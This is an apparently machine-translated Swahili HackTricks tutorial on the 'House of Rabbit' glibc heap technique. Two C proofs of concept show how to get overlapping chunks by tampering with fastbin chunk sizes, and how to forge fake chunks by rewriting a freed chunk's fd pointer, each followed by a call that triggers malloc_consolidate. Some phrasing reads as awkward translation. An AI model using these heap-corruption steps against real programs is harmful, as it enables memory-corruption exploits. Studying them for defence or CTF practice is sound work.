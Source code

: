 # Nyumba ya Sungura

<details>

<summary><strong>Jifunze kuhusu kuvamia AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa kipekee wa [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kuvamia kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

### Mahitaji

1. **Uwezo wa Kurekebisha Kiashiria au Ukubwa wa Fastbin**: Hii inamaanisha unaweza kubadilisha kiashiria cha mbele cha kipande katika fastbin au ukubwa wake.
2. **Uwezo wa Kuzindua `malloc_consolidate`**: Hii inaweza kufanywa kwa kutoa kipande kikubwa au kufunga kipande cha juu, ambacho hulazimisha rundo kufanya kazi ya kufunga vipande.

### Malengo

1. **Kuunda Vipande Vinavyopishana**: Ili kuwa na kipande kimoja kikizidi kingine, kuruhusu mabadiliko zaidi ya rundo.
2. **Kufanya Vipande Bandia**: Kudanganya mpangishaji ili atambue kipande bandia kama kipande halali wakati wa shughuli za rundo.

## Hatua za Shambulio

### POC 1: Badilisha Ukubwa wa Kipande cha Fastbin

**Lengo**: Kuunda kipande kinachopishana kwa kubadilisha ukubwa wa kipande cha fastbin.

* **Hatua 1: Kutenga Vipande**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
### Hatua ya 2: Fungua Vipande
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
### Tunaweka huru vipande vyote viwili, tukiviweka kwenye orodha ya fastbin.

* **Hatua ya 3: Badilisha Ukubwa wa Kipande**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
Tunabadilisha metadata ya ukubwa wa `chunk1` kuwa 0xa1. Hii ni hatua muhimu ya kudanganya mpangishaji wakati wa kujumuisha.

* **Hatua 4: Chochote `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Kutenga kipande kikubwa kinasababisha kazi ya `malloc_consolidate`, ikimegesha vipande vidogo kwenye fastbin. Ukubwa uliobadilishwa wa `chunk1` unasababisha kufunika na `chunk2`.

Baada ya kusongesha, `chunk1` inafunika na `chunk2`, kuruhusu udukuzi zaidi.

### POC 2: Badilisha Mshale wa FD

**Lengo**: Unda kipande bandia kwa kubadilisha mshale wa fd wa fastbin.

* **Hatua 1: Kutenga Vipande**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Maelezo**: Tunatenga vipande viwili, kimoja kidogo na kingine kikubwa, ili kuweka kiwango cha rundo kwa kipande bandia.

* **Hatua 2: Unda Kipande Bandia**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
### Hatua ya 3: Fungua Chunk1
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Maelezo**: Tunafuta `chunk1`, tukiiongeza kwenye orodha ya fastbin.

* **Hatua 4: Badilisha FD ya Chunk1**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Maelezo**: Tunabadilisha kielekezi cha mbele (fd) cha `chunk1` ili kielekeze kwa kipande bandia ndani ya `chunk2`.

* **Hatua 5: Chochote `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Kutenga kipande kikubwa tena husababisha `malloc_consolidate`, ambayo huprocess kipande bandia.

Kipande bandia huingizwa kwenye orodha ya fastbin, ikifanya iwe kipande halali kwa uchunguzi zaidi.

### Muhtasari

Mbinu ya **Nyumba ya Sungura** inahusisha kubadilisha ukubwa wa kipande cha fastbin ili kuunda vipande vinavyolingana au kudhibiti pointer ya fd ili kuunda vipande bandia. Hii inaruhusu wachomozaji kuunda vipande halali kwenye rundo, kuruhusu aina mbalimbali za uchunguzi. Kuelewa na kufanya mazoezi ya hatua hizi kutaboresha ujuzi wako wa uchunguzi wa rundo.
